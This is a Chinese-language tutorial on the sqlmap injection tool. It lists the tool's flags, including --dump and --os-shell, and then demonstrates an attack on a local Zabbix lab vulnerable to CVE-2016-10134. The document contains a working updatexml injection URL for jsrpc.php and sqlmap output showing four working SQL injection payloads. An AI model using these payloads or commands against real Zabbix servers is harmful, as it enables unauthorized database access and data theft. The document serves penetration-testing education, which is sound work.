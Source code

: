 # sqlmap初识
## 一、sqlmap探索
### 1、什么是sqlmap
sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令。  
简单来说，是一个可以自动对注入点进行sql注入的尝试工具  
### 2、sqlmap简介
```
官网：http://sqlmap.org/
github：https://github.com/sqlmapproject/sqlmap/zipball/master
```  
**sqlmap支持的数据库：**  
MySQL, Oracle,PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird,Sybase和SAP MaxDB等  
**注入方式：**  
l  基于布尔的盲注，即可以根据返回页面判断条件真假的注入；  
l  基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；  
l  基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；  
l  联合查询注入，可以使用union的情况下的注入；  
l  堆查询注入，可以同时执行多条语句的执行时的注入。  
**sqlmap搭建：**  
（1） python环境（本人使用anconda)  
（2） 可通过官网下载，按系统下载后可使用  
（3） 官网在国内不易访问，可直接对github或者gitee上的项目进行clone，通过python进行使用
``` 
附gitee地址：git clone https://gitee.com/vue-quasar/sqlmap.git
```  
可通过对应路径直接使用，或者对环境变量进行配置后可通过sqlmap命令直接使用
```
mac中配置shell：
alias sqlmap='python /Users/xxxx/yq_code/sqlmap/sqlmap.py'
```
最后可直接通过sqlmap使用（如下图）：
![image](../image/sqlmapCom.png)
至此sqlmap已经进入使用前的基础状态
### 3、sqlmap命令参数
**主要令集**
```
u 指定目标URL (可以是http协议也可以是https协议)
-d 连接数据库
--dbs 列出所有的数据库
--current-db 列出当前数据库
--tables 列出当前的表
--columns 列出当前的列
-D 选择使用哪个数据库
-T 选择使用哪个表
-C 选择使用哪个列
--dump 获取字段中的数据
--batch 自动选择yes
--smart 启发式快速判断，节约浪费时间
--forms 尝试使用post注入
-r 加载文件中的HTTP请求（本地保存的请求包txt文件）
-l 加载文件中的HTTP请求（本地保存的请求包日志文件）
-g 自动获取Google搜索的前一百个结果，对有GET参数的URL测试
-o 开启所有默认性能优化
--tamper 调用脚本进行注入
-v 指定sqlmap的回显等级
--delay 设置多久访问一次
--os-shell 获取主机shell，一般不太好用，因为没权限
-m 批量操作
-c 指定配置文件，会按照该配置文件执行动作
-data data指定的数据会当做post数据提交
-timeout 设定超时时间
-level 设置注入探测等级
--risk 风险等级
--identify-waf 检测防火墙类型
--param-del="分割符" 设置参数的分割符
--skip-urlencode 不进行url编码
--keep-alive 设置持久连接，加快探测速度
--null-connection 检索没有body响应的内容，多用于盲注
--thread 最大为10 设置多线程

其他参数可通过-hh进行帮助查询
```

## 二、sqlmap初试
### 测试目标
`http://127.0.0.1:8080/zabbix.php?action=dashboard.view`  
  ![image](../image/zabbix_login.png)
以之前搭建的CVE-2016-10134漏洞为测试目标，通过对已知的注入点进行sqlmap的尝试  
#### 当前注入点  
以下注入通过jsrpc.php触发，且无需登录
    在攻击机访问的zabbix的地址后面加上如下url：  
  http://192.168.1.13:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
  ![image](../image/zabbix_injectionSU.png)  
#### 测试语句  
```
sqlmap -u "http://localhost:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234" -p "profileIdx2"

解析：-u为指定url -p为指定注入的参数

```
#### 成功后如图：
![image](../image/sqlmap_access.png)  
对于成功后返回的解析：  
```
sqlmap -u "http://localhost:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234" -p "profileIdx2"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.12.23#dev}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:11:37 /2021-12-19/
//展示出使用的数据库
[17:11:37] [INFO] resuming back-end DBMS 'mysql'
[17:11:37] [INFO] testing connection to the target URL
//确认是否带上cookie
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=1tvlf0ugn2u...rns8v1o7v5;zbx_sessionid=20295a21faf...d97d0bae6d'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
//展示出注入点及payload
---
Parameter: profileIdx2 (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=(SELECT (CASE WHEN (5765=5765) THEN 1234 ELSE (SELECT 9224 UNION SELECT 9622) END))

    Type: inline query
    Title: Generic inline queries
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=(SELECT CONCAT(CONCAT(0x716a7a7071,(CASE WHEN (2400=2400) THEN 0x31 ELSE 0x30 END)),0x7162766a71))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234 AND GTID_SUBSET(CONCAT(0x716a7a7071,(SELECT (ELT(6078=6078,1))),0x7162766a71),6078)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=1234 AND (SELECT 6924 FROM (SELECT(SLEEP(5)))PrRx)
---
[17:11:39] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6

[*] ending @ 17:11:39 /2021-12-19/
```

